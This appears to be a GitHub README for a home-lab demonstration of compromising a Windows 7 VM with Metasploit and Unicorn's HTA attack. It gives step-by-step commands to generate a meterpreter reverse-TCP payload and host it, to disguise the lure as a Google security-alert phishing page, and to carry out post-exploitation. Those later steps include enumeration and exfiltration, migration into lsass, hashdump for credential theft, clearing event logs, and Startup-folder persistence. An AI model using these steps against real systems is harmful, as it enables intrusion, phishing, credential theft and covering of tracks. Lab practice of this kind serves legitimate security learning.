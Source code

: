 # Unicorn Demo 
I have built this demonstrate attacking a Windows 7 machine using Metasploit and Unicorn's HTA attack.  

## Environment Details

Kali Linux from https://www.kali.org/downloads/  
Unicorn from https://github.com/trustedsec/unicorn  
Windows 7 ISO en_windows_7_professional_with_sp1_x64_dvd_u_676939.iso from https://the-eye.eu/public/MSDN/Windows%207/  
VMware 11.5 on MacOS Catalina 10.15.2 but you can use other HyperVisors.  
**I would NOT reccomend AWS/Azure as they may interpret these activities as malicous and kill your environment/account**  
VMware Fusion lower than 11 have display issues with VM's on MacOS Catalina  

## Kali Setup

Download and install the latest Kali Linux 64-Bit Image https://www.kali.org/downloads/  
Once your VM is up and running login prepare Metasploit, Apache, and Postgresql for use.

'''
apt update
apt upgrade
systemctl enable postgresql
systemctl enable apache2
systemctl start postgresql
systemctl start apache2
msfconsole
exit
'''
, perform all available updates, and enable Apache and Postgresql, and start up Metasp
Run 'apt update' and then 'apt upgrade'. This will update Kali to the latest including metasploit which we will be using.  
Enable Postgresql and Apache2 to start at boot 'systemctl enable postgresql' and 'systemctl enable apache2'  
Start Postgresql and Apache2 "systemctl start postgresql' and 'systemctl start apache2'  
Start Metasploit "msfconsole' to initialize the db then 'exit' out  

## Windows 7 Setup
 
Install Window 7s. My testing was done as a trial installation. 
During install I created an administrator account named "admin". If you use a different login you will need to make changes later on.  
If you are testing against an AV solution, ensure your policies are in "Detect Only" mode.  
Upgrade Internet Explorer to version 11 by downloading to your host system and then dragging the exe into your VM  
    Note that Windows 7 lacks the appropriate certificates to browse https sites without this update https://go.microsoft.com/fwlink/?LinkId=324629
Disable UAC. You can google this if your not sure how.  


## Setup Kali (All done in a Terminal window, if you are not root you may need to use sudo for some commands)

Switch to /opt 'cd /opt'  
Download Unicorn 'git clone https://github.com/trustedsec/unicorn.git'  
Run 'ifconfig' and note your IP  
Switch to /opt/unicorn 'cd /opt/unicorn'  
Review the README.md  
Run unicorn.py using your kali IP and hta method for revese_tcp payload 'python unicorn.py windows/meterpreter/reverse_tcp 172.16.105.131 4444 hta'  
This generates and hta_attack folder that you now copy to /var/www/html 'cp hta_attack /var/www/html'  
Switch to /var/www/html/hta_attack 'cd /var/www/html/hta_attack'  
Use your favorite editor to modify unicorn.rc 'vi unicorn.rc'  
Make sure AutoVerifySession, AutoSystemInfo, and AutoLoadStdapi are all set to true then save your changes    

This generates the payload and metasploit configuration into our apache instance.  
In my case the URL is http://172.16.105.131/hta_attack/  
What i did next was generated a security event warning to my Google email. I copied the email and changed the "Check Activity" URL to the URL above". I also went into my Google account to the Security settings page and saved this page. I then edited /var/www/html/hta_attack/index.html and inserted the google code below the existing code making a slight modification to tell users to run the Security Checker tool when prompted. It's not perfect but its good enough to demonstrate a phishing attempt. You could clean this all up to better replicate the FROM address on the email and ensure the page looks exactly like the Google page.


## Next is to setup what we will do once we click the email link and open Launncher.hta

Download this repo that contains my demo.rc script  
Go back to /opt 'cd /opt/' and clone this repo 'git clone https://github.com/wond696/unicorn-demo.git'  
Switch to /opt/unicorn-demo and review demo.rc 'cd /opt/unicorn-demo' and 'cat demo.rc'  
My script is based on being logged in as a user named "admin", you may have to make modifications if you use a different account. Also, ensure the quotes in the file remain quotes, some text editors try to change one to a reverse quote which breaks the process  
You can modify this however you want but I found that trying to run everything in the script dies after creating a shell and causes a keyboard buffering problem so I'm only do base collection in the script and uploading files.  

## Download JAWS
'cd /opt' and 'git clone https://github.com/411Hall/JAWS.git'  
Review the README.md 'cat /opt/JAWS/README.md'  
  
Start our metasploit listener 'msfconsole -r /var/www/html/hta_attack/unicorn.rc'  
Launch the attack by clicking the email link or browsing to http://172.16.105.131/hta_attack/ and run/open the file when prompted  
This will generate a reverse tcp onto port 4444, you should see the session start.  
Confirm the session 'sessions -i'  
Connect to the session number 'sessions -i 1'  
Run demo.rc at the meterpreter prompt 'run /opt/unicorn-demo/demo.rc'  
Run the following commands (You may have to hit enter after the powershell commands run)  
'shell'  
'powershell Set-ExecutionPolicy -ExecutionPolicy Unrestricted' Enables powershell script execution.  
'powershell ./jaws-enum.ps1 exfil.txt' On your Windows 7 VM watch the C:\Users\Admin folder, when its done exfil.txt should be a little over 100k in size.  
'exit'  
'download exfil.txt'  
'rm jaws-enum.ps1'  
'rm exfil.txt'  
'run post/windows/manage/migrate' This should migrate you to a new notepad.exe process.  
'ps' Review and find the pid for lsass.exe  
'migrate 592' Use the pid for lsass.exe If this works you are now under a SYSTEM process.  
'hashdump' This will give you hashes that you might be able to convert to plaintext in jacktheripper or https://crackstation.net/  
'clearev' Clears Windows Logs


If you have followed this precisly and made changes to IP and username where needed you should have gather a lot of system information, have a exfil.txt file in your current directory, Launcher.hta should now be persitent by being in the users Start Menu > Startup. Reboot your Windows 7 VM to test, it should reconnect after you login.
